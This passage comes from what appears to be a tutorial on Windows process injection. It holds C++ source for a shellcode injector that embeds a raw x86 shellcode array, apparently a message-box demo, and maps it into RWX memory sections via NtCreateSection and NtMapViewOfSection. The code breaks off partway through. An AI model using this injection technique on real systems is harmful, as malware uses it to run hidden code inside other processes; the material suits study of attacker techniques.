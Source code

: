 For that purpose, we are going to write a small shellcode injector using some 
of above functions.

```cpp
#include <iostream>
#include <Windows.h>
#include <winternl.h>

#pragma comment(lib, "ntdll")

unsigned char buf[] = 
"\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
"\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
"\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
"\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
"\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
"\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
"\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
"\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
"\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
"\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
"\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
"\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
"\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
"\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
"\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
"\x68\x6b\x74\x58\x20\x68\x74\x20\x72\x65\x68\x45\x3d\x67\x65"
"\x68\x54\x49\x54\x4c\x68\x72\x65\x6b\x74\x68\x67\x65\x74\x20"
"\x31\xc9\x88\x4c\x24\x16\x89\xe1\x31\xd2\x52\x53\x51\x52\xff"
"\xd0\x31\xc0\x50\xff\x55\x08";

int main(int argc, char *argv[])
{
    if (argc == 2) 
    {
        LARGE_INTEGER sectionSize = { sizeof buf };
        HANDLE sectionHandle = NULL;
        PVOID localSectionAddress = NULL, remoteSectionAddress = NULL;

        // create a read write execute memory region in the local process
        if (fNtCreateSection(
                &sectionHandle, 
                SECTION_ALL_ACCESS, 
                NULL,
                (PLARGE_INTEGER)&sectionSize, 
                PAGE_EXECUTE_READWRITE, 
                SEC_COMMIT, NULL) != STATUS_SUCCESS)
        {
            std::cout << "[x]Create section failed\n";
            return 0;
        }


        SIZE_T size = sizeof buf;

        // create a view of the memory section in the local process
        if (fNtMapViewOfSection(
                sectionHandle, 
                GetCurrentProcess(), 
                &localSectionAddress, 
                NULL, NULL, NULL, 
                &size, 2, NULL, 
                PAGE_READWRITE) != STATUS_SUCCESS)
        {
```